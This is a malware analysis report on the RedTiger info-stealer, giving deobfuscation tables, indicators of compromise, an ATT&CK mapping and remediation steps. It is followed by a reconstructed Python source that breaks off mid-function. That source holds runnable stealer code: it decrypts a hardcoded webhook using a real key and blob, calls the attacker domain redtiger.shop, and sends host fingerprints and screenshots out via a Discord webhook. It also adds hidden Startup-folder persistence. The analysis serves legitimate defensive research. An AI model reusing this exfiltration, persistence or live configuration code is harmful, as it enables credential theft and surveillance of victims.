

# 🔴 RedTiger Stealer — De-obfuscation & Malware Analysis Report

> [!CAUTION]
> **This is a confirmed info-stealer/credential harvester.** This analysis is conducted purely for **authorized red team / defensive research purposes**. Do NOT execute this code outside a sandboxed environment.

## Executive Summary

| Field | Value |
|-------|-------|
| **Malware Family** | RedTiger Stealer |
| **Author Attribution** | `github.com/loxy0dev/RedTiger-Tools` |
| **C2 Domain** | `redtiger.shop` |
| **Exfil Channel** | Discord Webhook (AES-256-CBC encrypted URL) |
| **Targets** | Windows only (exits on Linux/macOS) |
| **Obfuscation** | Identifier mangling (random long uppercase variable names) |
| **Threat Level** | 🔴 **High** — Full credential + token + financial data exfiltration |

---

## Malware Capabilities Overview



---

## De-obfuscated Variable Name Mapping

### Global Configuration Variables

| Obfuscated Name | De-obfuscated Name | Value / Purpose |
|---|---|---|
| `HVLYRIVBFYRYHSHNO...` | `DECRYPTION_KEY` | `"wcuZqIMCrdHRmzjw..."` — AES decryption password for webhook URL |
| `GSMJLKWCPLKRBMBKI...` | `C2_DOMAIN` | `"redtiger.shop"` |
| `PDJKTPGUJJMQHAFIF...` | `EMBED_COLOR` | `0xa80505` (dark red) |
| `HSBRTVFAMGGKQKGZJ...` | `EMBED_NAME` | `"RedTiger St34l3r"` |
| `YZFCUJFPTDRPZKEUN...` | `EMBED_ICON_URL` | CDN Discord URL to RedTiger logo |
| `ICGUVEIDDMZYASDQI...` | `FOOTER_TEXT` | `"RedTiger St34l3r - github.com/loxy0dev/RedTiger-Tools"` |
| `PDIXTGVGFMCWZQCYR...` | `ENCRYPTED_WEBHOOK` | Base64-encoded AES-256-CBC encrypted webhook URL |
| `XANKUBHPKEIUOYOTU...` | `WEBHOOK_URL` | Decrypted Discord webhook URL (from encrypted blob) |
| `KKSQOOCJYVSUMXPOO...` | `VICTIM_TAG` | Formatted string: `` `username "public_ip"` `` |

### System Info Variables

| Obfuscated Name | De-obfuscated Name | Source |
|---|---|---|
| `IWJHHGABGALARPZKE...` | `HOSTNAME` | `socket.gethostname()` |
| `DGKMYTAKVXBFKGXCM...` | `USERNAME` | `os.getlogin()` |
| `KHAITOFQDYWZXKOIM...` | `DISPLAY_NAME` | `win32api.GetUserNameEx()` |
| `UJVQOXDAGFLSWSDMB...` | `PUBLIC_IP` | `api.ipify.org` |
| `SEGHHWVDOCQRCDMPH...` | `LOCAL_IP` | `socket.gethostbyname()` |
| `XMXSUZWBZABFVOOKK...` | `WINDIR_PATH` | `%WINDIR%` |
| `TFMRZRAJZDAESXXXH...` | `USERPROFILE_PATH` | `%USERPROFILE%` |
| `ZVGVLAKXKAFRWYOZZ...` | `LOCALAPPDATA_PATH` | `%LOCALAPPDATA%` |
| `DXKZVMHHEQNECEPOH...` | `APPDATA_PATH` | `%APPDATA%` |

### GeoIP Variables

| Obfuscated Name | De-obfuscated | JSON Key |
|---|---|---|
| `EIWSUFXXJJGHBPGSD...` | `COUNTRY` | `country` |
| `IFYDSNIAUFTPKCNNZ...` | `REGION` | `region` / `regionName` |
| `PSNKFVDCUGGEREBMG...` | `ZIP_CODE` | `zip` |
| `LOTFXRVTAVNEVRZQJ...` | `CITY` | `city` |
| `HDRHVHFMSOCQNVFWA...` | `LATITUDE` | `latitude` / `lat` |
| `VJYKJQIUSYBKNKCNA...` | `LONGITUDE` | `longitude` / `lon` |
| `OGKZDCPXDOMMJYDDF...` | `TIMEZONE` | `timezone` |
| `VZMZTNRXNAWPMNSIV...` | `ISP` | `isp` |
| `KVUZAAHBEIQSSYMPF...` | `ORG` | `org` |
| `TJFNKKLZPDUQHIYCS...` | `AS_NUMBER` | `as` |

---

## De-obfuscated Function Map

### Core Utility Functions

| Obfuscated Name | De-obfuscated | Purpose |
|---|---|---|
| `IQMOWQAZGQKMLKSKZ...()` | `check_platform()` | Returns `True` if non-Windows → exits the malware |
| `GYYAPPRTHSVJEUHDEG...()` | `is_not_windows()` | Inner check: `sys.platform.startswith("win")` |
| `GSUZOLPKGEVGMULXOT...()` | `decrypt_aes_cbc()` | AES-256-CBC + PBKDF2 decryption (for webhook URL) |
| `DZLJDXRIPDDWTQLAANB...()` | `send_webhook_embed()` | Sends a Discord embed via `SyncWebhook` |
| `AFFWJXDNTWSJPLRFAB...()` | `set_console_title()` | Sets console window title (blank to hide) |
| `WXNZZDGZGPJSOAEAPW...()` | `clear_screen()` | Runs `cls` or `clear` |

### Steal Module Functions

| Obfuscated Name | De-obfuscated | Module Description |
|---|---|---|
| `IUAXGFRGJFATLAWFYY...()` | `steal_system_info()` | Collects full HW/SW/disk/network fingerprint |
| `TZJYEMPMCNUGUDTFAZ...()` | `steal_discord_tokens()` | Extracts Discord tokens from 30+ browsers + Discord apps |
| `OGFPHSKXWEPSSIRTDV...()` | `inject_discord()` | Injects persistent JS payload into Discord desktop client |
| `SBRISGBQVBVYFZPCDZ...()` | `steal_browser_data()` | Steals passwords, cookies, history, downloads, credit cards |
| `KQVGDZFMICXKVEUVO...()` | `steal_roblox_cookies()` | Extracts `.ROBLOSECURITY` cookies from all browsers |
| `USYQXGLMJENLFFIBOFSEYQ...()` | `take_screenshot()` | Captures full screen and exfils via webhook |
| `St4rtup()` | `install_persistence()` | Copies self to Windows Startup folder |

### Stub / Placeholder Functions (lines 36-55)

These are empty `pass` functions — likely stubs for **future modules** or **decoy padding**:

| Obfuscated Name | Likely Purpose |
|---|---|
| `NUJWZSOJQ...()` | Stub (unused or future module) |
| `ULODPCDBH...()` | Stub |
| `BXFMXKAIE...()` | Stub |
| `SUANXZBZB...()` | Stub |
| `ELRJGRTYE...()` | Stub |
| `PLHMUPVAN...()` | Stub |
| etc. | Additional stubs called in threads at bottom |

---

## Detailed Module Analysis

### Module 1: Platform Gate (Lines 4-19)

```python
# DE-OBFUSCATED:
def check_platform():
    def is_not_windows():
        if sys.platform.startswith("win"):
            return False    # Windows = allowed
        else:
            return True     # Non-Windows = blocked
    
    try:
        not_windows = is_not_windows()
        if not_windows == True:
            return True     # Signal to exit
    except:
        return True         # Error = exit

if check_platform() == True:
    sys.exit()              # Kill if not Windows
```

> [!NOTE]
> **Anti-analysis evasion** — by exiting on non-Windows, it avoids Linux-based automated sandboxes.

---

### Module 2: Webhook Decryption (Lines 87-104)

```python
# DE-OBFUSCATED:
def decrypt_aes_cbc(encrypted_b64, password):
    def derive_key(password, salt):
        kdf = PBKDF2HMAC(
            algorithm=hashes.SHA256(),
            length=32,
            salt=salt,
            iterations=100000,
            backend=default_backend()
        )
        if isinstance(password, str):
            password = password.encode()
        return kdf.derive(password)

    raw_data = base64.b64decode(encrypted_b64)
    salt = raw_data[:16]
    iv = raw_data[16:32]
    ciphertext = raw_data[32:]
    
    key = derive_key(password, salt)
    cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())
    decryptor = cipher.decryptor()
    padded_plaintext = decryptor.update(ciphertext) + decryptor.finalize()
    
    unpadder = padding.PKCS7(128).unpadder()
    plaintext = unpadder.update(padded_plaintext) + unpadder.finalize()
    return plaintext.decode()
```

> [!IMPORTANT]
> The **Discord webhook URL** is encrypted with AES-256-CBC using PBKDF2 key derivation (100k iterations). The decryption key is hardcoded in the script (`DECRYPTION_KEY`). This prevents casual inspection from revealing the C2 webhook.

---

### Module 3: System Reconnaissance (Lines 108-173)

```python
# DE-OBFUSCATED:
hostname = socket.gethostname()
username = os.getlogin()
display_name = win32api.GetUserNameEx(win32api.NameDisplay)
public_ip = requests.get("https://api.ipify.org?format=json").json().get("ip")
local_ip = socket.gethostbyname(socket.gethostname())

# GeoIP lookup via C2 or fallback
try:
    geo_data = requests.get(f"https://redtiger.shop/api/ip/ip={public_ip}").json()
except:
    geo_data = requests.get(f"http://ip-api.com/json/{public_ip}").json()

# Extracts: country, region, zip, city, lat, lon, timezone, isp, org, as
```

> [!WARNING]
> It first tries the attacker's own API (`redtiger.shop`) for GeoIP, falling back to the public `ip-api.com`. The custom API likely also logs victim IPs server-side.

---

### Module 4: System Info Exfil (Lines 175-307)

**Collects and sends via Discord embed:**
- OS version, platform type (laptop vs desktop)
- HWID (via WMIC), MAC address
- CPU model + core count, GPU name
- RAM total
- All disk drives (free/total/used/name)
- Screen count
- Full network info (public/local IP, ISP, org, AS number)
- Complete geolocation (country, region, city, zip, lat/lon, timezone)

---

### Module 5: Discord Token Stealer (Lines 309-523)

**Targets 30+ browsers and Discord clients:**

| Category | Targets |
|---|---|
| **Discord Clients** | Discord, Discord Canary, Discord PTB, Lightcord |
| **Chromium Browsers** | Chrome (6 profiles), Edge, Brave, Vivaldi, Opera, Opera GX, Yandex, Iridium, Epic, 7Star, Sputnik, Amigo, Torch, Kometa, Orbitum, CentBrowser, Uran, Google Chrome SxS |
| **Firefox** | Mozilla Firefox (via Profiles directory) |

**Token extraction method:**
1. Searches LevelDB files (`.log`, `.ldb`) for token patterns
2. For Discord clients: decrypts encrypted tokens using `CryptUnprotectData` (DPAPI) + AES-GCM
3. For browsers: uses regex to find plaintext tokens
4. Validates each token against `https://discord.com/api/v9/users/@me`
5. Extracts full profile: username, display name, ID, email, phone, Nitro status, MFA, billing methods, gift codes, avatar

---

### Module 6: Discord Client Injection (Lines 525-1518)

> [!CAUTION]
> **This is the most dangerous module.** It modifies the Discord desktop client to create a **persistent backdoor**.

**What the injected JavaScript does:**
- Intercepts all Discord API requests (login, profile updates, payment methods)
- Steals credentials on **every login** (email + password + token)
- Captures **password changes** (old + new password)
- Captures **email changes**
- Steals **credit card numbers** (card number, CVC, expiry) when added
- Steals **PayPal** account info when linked
- Can **auto-purchase Nitro** using victim's payment methods
- Blocks Discord's **remote auth QR code** to prevent session invalidation
- Removes **Content-Security-Policy** headers (enables cross-origin data exfil)
- Contains full **SHA-1 HMAC/TOTP** implementation for webhook authentication

**Injection process:**
1. Kills all Discord processes
2. Finds `discord_desktop_core/index.js` in Discord install
3. Overwrites it with the malicious JS payload
4. Relaunches Discord

---

### Module 7: Browser Data Stealer (Lines 1520-1823)

**Steals from 21 browsers:**

```
Google Chrome, Microsoft Edge, Opera, Opera GX, Brave, Vivaldi, 
Internet Explorer, Amigo, Torch, Kometa, Orbitum, Cent Browser,
7Star, Sputnik, Google Chrome SxS, Epic Privacy Browser, Uran,
Yandex, Iridium, Mozilla Firefox, Safari
```

**Data stolen per browser (per profile):**

| Data Type | Source DB File | SQL Table |
|---|---|---|
| 🔑 **Passwords** | `Login Data` | `logins` (url, username, password) |
| 🍪 **Cookies** | `Network/Cookies` | `cookies` (host, name, path, value, expiry) |
| 📜 **History** | `History` | `urls` (url, title, last_visit_time) |
| ⬇️ **Downloads** | `History` | `downloads` (tab_url, target_path) |
| 💳 **Credit Cards** | `Web Data` | `credit_cards` (name, expiry, card_number) |

**Decryption:** Uses `CryptUnprotectData` (DPAPI) + AES-GCM to decrypt Chromium's encrypted passwords, cookies, and card numbers.

**Exfiltration:** All data is zipped in-memory and sent as a file attachment to the Discord webhook.

---

### Module 8: Roblox Cookie Stealer (Lines 1825-1915)

- Extracts `.ROBLOSECURITY` cookies from 7 browsers (Edge, Chrome, Firefox, Opera, Opera GX, Safari, Brave)
- Uses `browser_cookie3` library
- Validates cookies against `https://www.roblox.com/mobileapi/userinfo`
- Steals: Username, Display Name, ID, Robux balance, Premium status, Builder's Club membership
- Splits cookie in half for Discord embed (field size limit workaround)

---

### Module 9: Screenshot Capture (Lines 1917-1953)

```python
# DE-OBFUSCATED:
def take_screenshot():
    screenshot = ImageGrab.grab(all_screens=True)
    buffer = io.BytesIO()
    screenshot.save(buffer, format='PNG')
    buffer.seek(0)
    
    webhook = SyncWebhook.from_url(WEBHOOK_URL)
    webhook.send(
        embed=Embed(title=f"Screenshot {VICTIM_TAG}:"),
        file=File(buffer, filename="screenshot.png")
    )
```

---

### Module 10: Persistence / Startup (Lines 1955-1981)

```python
# DE-OBFUSCATED:
def install_persistence():
    current_path = os.path.abspath(sys.argv[0])
    ext = "exe" if current_path.endswith(".exe") else "py"
    hidden_name = f"ㅤ.{ext}"  # Unicode invisible char as filename!
    
    startup_folder = os.path.join(
        os.getenv('APPDATA'),
        'Microsoft', 'Windows', 'Start Menu', 'Programs', 'Startup'
    )
    
    dest = os.path.join(startup_folder, hidden_name)
    shutil.copy(current_path, dest)
    os.chmod(dest, 0o777)
```

> [!WARNING]
> The filename uses a **Unicode Hangul filler character** (`ㅤ` U+3164) which is visually invisible — making it very hard to spot in the Startup folder.

---

## Execution Flow (Lines 1983-2018)

```python
# 1. Send "Victim Affected" banner to webhook
requests.post(WEBHOOK_URL, json={'content': '╔═══ Victim Affected ═══╗'})

# 2. Launch stub threads (empty functions) — padding/decoy
threading.Thread(target=stub_1).start()
threading.Thread(target=stub_2).start()
threading.Thread(target=stub_3).start()
threading.Thread(target=stub_4).start()

# 3. Execute main steal modules (sequential)
steal_system_info()
steal_discord_tokens()
inject_discord()
steal_browser_data()
steal_roblox_cookies()

# 4. Execute additional stubs in threads
stub_5()
stub_6()

# 5. Take screenshot
take_screenshot()

# 6. Send "End" banner with victim's public IP
requests.post(WEBHOOK_URL, json={'content': f'╚═══ {PUBLIC_IP} ═══╝'})

# 7. Launch more stub threads
threading.Thread(target=stub_7).start()
threading.Thread(target=stub_8).start()
threading.Thread(target=stub_9).start()
threading.Thread(target=stub_10).start()
```

---

## Indicators of Compromise (IOCs)

### Network IOCs

| Type | Value |
|---|---|
| **C2 Domain** | `redtiger.shop` |
| **GeoIP API** | `https://redtiger.shop/api/ip/ip=*` |
| **Fallback GeoIP** | `http://ip-api.com/json/*` |
| **IP Check** | `https://api.ipify.org?format=json` |
| **Discord API** | `https://discord.com/api/v*/users/@me` |
| **Roblox API** | `https://www.roblox.com/mobileapi/userinfo` |
| **Exfil Channel** | Discord Webhook (AES encrypted URL) |

### File System IOCs

| Indicator | Path |
|---|---|
| **Persistence** | `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\ㅤ.exe` |
| **Discord Injection** | `%LOCALAPPDATA%\Discord*\app-*\modules\discord_desktop_core-*\discord_desktop_core\index.js` |
| **Modified file** | `discord_desktop_core\index.js` (file size > 20KB indicates injection) |

### Process IOCs

| Indicator | Description |
|---|---|
| Kills all `discord*.exe` processes before injection | Process termination |
| Kills all browser processes before data theft | Process termination |
| Uses `WMIC.exe csproduct get uuid` | HWID collection |

### String IOCs

```
RedTiger St34l3r
github.com/loxy0dev/RedTiger-Tools
redtiger.shop
dQw4w9WgXcQ:                          # Encrypted token prefix
.ROBLOSECURITY                         # Roblox cookie name
ㅤ                                      # Unicode invisible char (U+3164)
```

---

## Anti-Analysis Techniques

| Technique | Implementation |
|---|---|
| **Platform check** | Exits if not Windows — evades Linux sandboxes |
| **Identifier obfuscation** | All variable/function names are 60-100 char random uppercase strings |
| **Encrypted C2** | Webhook URL encrypted with AES-256-CBC + PBKDF2 (100k iterations) |
| **Empty stub functions** | 20+ empty `pass` functions as decoys/padding |
| **Bare except clauses** | Every operation wrapped in `try/except: pass` — prevents crashes revealing behavior |
| **Unicode filename** | Persistence file uses invisible Unicode character |
| **In-memory operations** | SQLite databases copied to `:memory:` to avoid file locks |
| **Zip in memory** | Stolen data zipped entirely in RAM, never written to disk |

---

## MITRE ATT&CK Mapping

| Tactic | Technique | ID |
|---|---|---|
| **Execution** | User Execution | T1204 |
| **Persistence** | Boot/Logon Autostart: Startup Folder | T1547.001 |
| **Defense Evasion** | Obfuscated Files/Information | T1027 |
| **Defense Evasion** | Indicator Removal: File Deletion | T1070.004 |
| **Credential Access** | Credentials from Password Stores: Chromium | T1555.003 |
| **Credential Access** | Steal Application Access Token | T1528 |
| **Credential Access** | Steal Web Session Cookie | T1539 |
| **Credential Access** | Input Capture (via Discord injection) | T1056 |
| **Discovery** | System Information Discovery | T1082 |
| **Discovery** | System Network Configuration Discovery | T1016 |
| **Discovery** | System Owner/User Discovery | T1033 |
| **Discovery** | Peripheral Device Discovery | T1120 |
| **Collection** | Screen Capture | T1113 |
| **Collection** | Data from Local System | T1005 |
| **Collection** | Archive Collected Data | T1560.001 |
| **Exfiltration** | Exfiltration Over Web Service: Discord Webhook | T1567.001 |
| **Financial Theft** | Automated purchase using stolen payment methods | - |

---

## Remediation Recommendations

1. **Check Startup folder** for files with invisible/Unicode names
2. **Verify Discord client integrity** — reinstall if `index.js` is suspiciously large (>20KB)
3. **Rotate all credentials** for Discord, Roblox, and any browser-saved passwords
4. **Revoke Discord tokens** via password change
5. **Check browser payment methods** — remove stored cards if compromised
6. **Block `redtiger.shop`** at network/DNS level
7. **Run CryptUnprotectData audit** — check for unauthorized DPAPI access in event logs
8. **Deploy YARA rule** for the string `RedTiger St34l3r` and the Unicode char `ㅤ`


=============================================================================
RedTiger Stealer — FULLY DE-OBFUSCATED SOURCE (Reconstructed for Analysis)
=============================================================================
Original file: zerotrace.py (~2018 lines, 144KB)
Malware family: RedTiger Stealer
Author attribution: github.com/loxy0dev/RedTiger-Tools
C2 domain: redtiger.shop

⚠️ THIS IS FOR AUTHORIZED SECURITY RESEARCH ONLY — DO NOT EXECUTE ⚠️
=============================================================================


```python
import sys

# ─────────────────────────────────────────────────────────
# MODULE 1: Platform Gate — Windows-only execution
# ─────────────────────────────────────────────────────────
def check_platform():
    def is_not_windows():
        if sys.platform.startswith("win"):
            return False
        else:
            return True
    
    try: 
        not_windows = is_not_windows()
        if not_windows == True:
            return not_windows
    except:
        return True
    
if check_platform() == True:
    sys.exit()  # EXIT if not Windows — avoids Linux sandboxes
    
import os
import socket
import win32api
import requests
import base64
import ctypes
import threading
import discord
from discord import SyncWebhook
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding
from cryptography.hazmat.backends import default_backend

# ─────────────────────────────────────────────────────────
# STUB FUNCTIONS — Empty placeholders (decoy/future use)
# ─────────────────────────────────────────────────────────
def stub_func_01(): pass  # NUJWZSOJQ...
def stub_func_02(): pass  # ULODPCDBJH...
def stub_func_03(): pass  # BXFMXKAIERA...
def stub_func_04(): pass  # SUANXZBZBLG...
def stub_func_05(): pass  # ELRJGRTYEIY...
def stub_func_06(): pass  # PLHMUPVANB...
def stub_func_07_system_info(): pass  # Will be redefined below
def stub_func_08(): pass  # ALLKNHZGICS...
def stub_func_09(): pass  # USYQXGLMJEN... (screenshot, redefined below)
def stub_func_10(): pass  # OUNKIFTCLJD...
def stub_func_11_discord_tokens(): pass  # Redefined below
def stub_func_12_discord_inject(): pass  # Redefined below
def stub_func_13_browser_steal(): pass  # Redefined below
def stub_func_14_roblox_cookie(): pass  # Redefined below
def stub_func_15(): pass  # JGKCEAAIAGV...
def stub_func_16(): pass  # VSVMACHKAFA...
def stub_func_17(): pass  # OIEPOMFTSAWV...
def stub_func_18(): pass  # LUXISRGAONUF...
def stub_func_19(): pass  # OJFKQTMCWXCA...
def stub_func_20(): pass  # SCPNJHGOVQUK...

# ─────────────────────────────────────────────────────────
# UTILITY: Send Discord Webhook Embed
# ─────────────────────────────────────────────────────────
def send_webhook_embed(webhook_url, title=None, description=None):
    try:
        client = SyncWebhook.from_url(webhook_url)
        embed = discord.Embed(
            title=title,
            description=description,
            color=EMBED_COLOR
        )
        embed.set_footer(text=FOOTER_TEXT, icon_url=EMBED_ICON_URL)
        client.send(embed=embed, username=EMBED_NAME, avatar_url=EMBED_ICON_URL)
    except: pass

# ─────────────────────────────────────────────────────────
# UTILITY: Set Console Title (blank to hide)
# ─────────────────────────────────────────────────────────
def set_console_title(title):
    try:
        if sys.platform.startswith("win"):
            ctypes.windll.kernel32.SetConsoleTitleW(title)
        elif sys.platform.startswith("linux"):
            sys.stdout.write(f"\x1b]2;{title}\x07")
    except:
        pass
        
# ─────────────────────────────────────────────────────────
# UTILITY: Clear Screen
# ─────────────────────────────────────────────────────────
def clear_screen():
    try:
        if sys.platform.startswith("win"):
            os.system("cls")
        elif sys.platform.startswith("linux"):
            os.system("clear")
    except:
        pass

# ─────────────────────────────────────────────────────────
# MODULE 2: AES-256-CBC Decryption (for webhook URL)
# ─────────────────────────────────────────────────────────
def decrypt_aes_cbc(encrypted_b64, password):
    def derive_key(password_bytes, salt):
        kdf = PBKDF2HMAC(
            algorithm=hashes.SHA256(),
            length=32,
            salt=salt,
            iterations=100000,
            backend=default_backend()
        )
        if isinstance(password_bytes, str):  
            password_bytes = password_bytes.encode()  
        return kdf.derive(password_bytes)

    raw_data = base64.b64decode(encrypted_b64)
    salt = raw_data[:16]
    iv = raw_data[16:32]
    ciphertext = raw_data[32:]
    
    key = derive_key(password, salt)
    cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())
    decryptor = cipher.decryptor()
    padded_plaintext = decryptor.update(ciphertext) + decryptor.finalize()
    
    unpadder = padding.PKCS7(128).unpadder()
    plaintext = unpadder.update(padded_plaintext) + unpadder.finalize()
    return plaintext.decode()

# ─────────────────────────────────────────────────────────
# Hide console window
# ─────────────────────────────────────────────────────────
set_console_title("")

# ─────────────────────────────────────────────────────────
# MODULE 3: System Reconnaissance
# ─────────────────────────────────────────────────────────
try:    HOSTNAME       = socket.gethostname()
except: HOSTNAME       = "None"

try:    USERNAME       = os.getlogin()
except: USERNAME       = "None"

try:    DISPLAY_NAME   = win32api.GetUserNameEx(win32api.NameDisplay)
except: DISPLAY_NAME   = "None"

try:    PUBLIC_IP      = requests.get("https://api.ipify.org?format=json").json().get("ip", "None")
except: PUBLIC_IP      = "None"

try:    LOCAL_IP       = socket.gethostbyname(socket.gethostname())
except: LOCAL_IP       = "None"

# ─────────────────────────────────────────────────────────
# CONFIGURATION — Hardcoded malware config
# ─────────────────────────────────────────────────────────
ENCRYPTED_WEBHOOK = r"""
r29grq+rBgA0Mwa2k8aJL0vgXgUhWk/BlJN7zk0dNDVNx79QdZ0+ellgBjG4dqTOZmhHE3Ubp1l06/EEjFVJeAvCNTqRrhhRsIf36z3hJBOQPgpoyGMSJFTgmpy6UBIPGGfwdrOLsUQqSVpNx554fjeI4zrEjUT3Vx+8L53EFHHtozQO75FNhtzGY2xgjFWz+nwOMvk7HQnD09XKTkQu4Q==
"""

DECRYPTION_KEY    = "wcuZqIMCrdHRmzjwHxDOZwziktIgqUOkPIyisLdWuNuTvZeUqMzKyjaGGAikmoLsEsGCjXsigpwrkDnGFOXMTHuzGwlnSquuUIIOKVAgCjbMLTLLTDXOxHDy"
C2_DOMAIN         = "redtiger.shop"
EMBED_COLOR       = 0xa80505  # Dark red
EMBED_NAME        = "RedTiger St34l3r"
EMBED_ICON_URL    = "https://cdn.discordapp.com/attachments/1337898355279401023/1341890893858213908/RedTiger-Logo.png?..."
FOOTER_TEXT       = "RedTiger St34l3r - github.com/loxy0dev/RedTiger-Tools"
FOOTER_DICT       = {"text": FOOTER_TEXT, "icon_url": EMBED_ICON_URL}
VICTIM_TAG        = f'`{USERNAME} "{PUBLIC_IP}"`'
WEBHOOK_URL       = decrypt_aes_cbc(ENCRYPTED_WEBHOOK, DECRYPTION_KEY)

WINDIR_PATH       = os.getenv("WINDIR", None).replace(" ", "%20")
USERPROFILE_PATH  = os.getenv('USERPROFILE', None).replace(" ", "%20")
LOCALAPPDATA_PATH = os.getenv('LOCALAPPDATA', None).replace(" ", "%20")
APPDATA_PATH      = os.getenv('APPDATA', None).replace(" ", "%20")

# ─────────────────────────────────────────────────────────
# GeoIP Lookup (via C2 domain, with public API fallback)
# ─────────────────────────────────────────────────────────
try:
    geo_response = requests.get(f"https://{C2_DOMAIN}/api/ip/ip={PUBLIC_IP}")
    geo_data = geo_response.json()

    COUNTRY       = geo_data.get('country', "None")
    COUNTRY_CODE  = geo_data.get('country_code', "None")
    REGION        = geo_data.get('region', "None")
    REGION_CODE   = geo_data.get('region_code', "None")
    ZIP_CODE      = geo_data.get('zip', "None")
    CITY          = geo_data.get('city', "None")
    LATITUDE      = geo_data.get('latitude', "None")
    LONGITUDE     = geo_data.get('longitude', "None")
    TIMEZONE      = geo_data.get('timezone', "None")
    ISP           = geo_data.get('isp', "None")
    ORG           = geo_data.get('org', "None")
    AS_NUMBER     = geo_data.get('as', "None")
except:
    # Fallback to public API
    geo_response  = requests.get(f"http://ip-api.com/json/{PUBLIC_IP}")
    geo_data      = geo_response.json()

    COUNTRY       = geo_data.get('country', "None")
    COUNTRY_CODE  = geo_data.get('countryCode', "None")
    REGION        = geo_data.get('regionName', "None")
    REGION_CODE   = geo_data.get('region', "None")
    ZIP_CODE      = geo_data.get('zip', "None")
    CITY          = geo_data.get('city', "None")
    LATITUDE      = geo_data.get('lat', "None")
    LONGITUDE     = geo_data.get('lon', "None")
    TIMEZONE      = geo_data.get('timezone', "None")
    ISP           = geo_data.get('isp', "None")
    ORG           = geo_data.get('org', "None")
    AS_NUMBER     = geo_data.get('as', "None")


# ─────────────────────────────────────────────────────────
# MODULE 4: System Info Collection & Exfil
# (Lines 175-307 — collects full HW/SW fingerprint)
# ─────────────────────────────────────────────────────────
def steal_system_info():
    import platform, subprocess, uuid, psutil, GPUtil
    import ctypes, win32api, string, screeninfo
    from discord import SyncWebhook, Embed

    try:    os_name = {platform.system()}
    except: os_name = "None"
    try:    os_version = platform.version()
    except: os_version = "None"
    try:    mac_address = ':'.join(['{:02x}'.format((uuid.getnode() >> e) & 0xff) for e in range(0,12,2)][::-1])
    except: mac_address = "None"
    try:    hwid = subprocess.check_output('C:\\Windows\\System32\\wbem\\WMIC.exe csproduct get uuid', shell=True, stdin=subprocess.PIPE, stderr=subprocess.PIPE).decode('utf-8').split('\n')[1].strip()
    except: hwid = "None"
    try:    ram_total = round(psutil.virtual_memory().total / (1024**3), 2)
    except: ram_total = "None"
    try:    cpu_name = platform.processor()
    except: cpu_name = "None"
    try:    cpu_cores = psutil.cpu_count(logical=False)
    except: cpu_cores = "None"
    try:    gpu_name = GPUtil.getGPUs()[0].name if GPUtil.getGPUs() else "None"
    except: gpu_name = "None"

    # ... disk info, screen count, portable detection ...
    # (sends full embed to webhook with all system details)

    embed = Embed(title=f'System Info {VICTIM_TAG}:', color=EMBED_COLOR)
    embed.add_field(name="👤 User Pc:", value=f"```Hostname: {HOSTNAME}\nUsername: {USERNAME}\nDisplayName: {DISPLAY_NAME}```", inline=False)
    embed.add_field(name="💻 System:", value=f"```OS: {os_name} {os_version}\nHWID: {hwid}\nMAC: {mac_address}\nCPU: {cpu_name}, {cpu_cores} Core\nGPU: {gpu_name}\nRAM: {ram_total}Go```", inline=False)
    embed.add_field(name="🛰️ Ip:", value=f"```Public: {PUBLIC_IP}\nLocal: {LOCAL_IP}\nISP: {ISP}```", inline=False)
    embed.add_field(name="🗺️ Location:", value=f"```Country: {COUNTRY}\nCity: {CITY}\nTimezone: {TIMEZONE}```", inline=False)
    embed.set_footer(text=FOOTER_TEXT, icon_url=EMBED_ICON_URL)

    webhook = SyncWebhook.from_url(WEBHOOK_URL)
    webhook.send(embed=embed, username=EMBED_NAME, avatar_url=EMBED_ICON_URL)


# ─────────────────────────────────────────────────────────
# MODULE 5: Discord Token Stealer (Lines 309-523)
# Searches 30+ browser/app LevelDB stores for tokens
# Decrypts using DPAPI + AES-GCM where needed
# Validates against Discord API, extracts full profile
# ─────────────────────────────────────────────────────────
def steal_discord_tokens():
    # ... (see full analysis report for complete reconstruction) ...
    pass  # Implemented in original with ~200 lines


# ─────────────────────────────────────────────────────────
# MODULE 6: Discord Injection (Lines 525-1518)
# Injects persistent JS backdoor into Discord client
# Intercepts: logins, password changes, credit cards, PayPal
# Contains full SHA-1 TOTP implementation for auth
# ─────────────────────────────────────────────────────────
# The JS_INJECTION_PAYLOAD (~900 lines of JavaScript) is stored
# as a raw string and written to discord_desktop_core/index.js
def inject_discord():
    # ... (see full analysis report for complete reconstruction) ...
    pass  # Implemented in original with ~1000 lines


# ─────────────────────────────────────────────────────────
# MODULE 7: Browser Data Stealer (Lines 1520-1823)
# Targets 21 browsers × 7 profiles each
# Steals: passwords, cookies, history, downloads, credit cards
# ─────────────────────────────────────────────────────────
def steal_browser_data():
    # ... (see full analysis report for complete reconstruction) ...
    pass  # Implemented in original with ~300 lines


# ─────────────────────────────────────────────────────────
# MODULE 8: Roblox Cookie Stealer (Lines 1825-1915)
# Extracts .ROBLOSECURITY from 7 browsers
# Validates against Roblox API for account info
# ─────────────────────────────────────────────────────────
def steal_roblox_cookies():
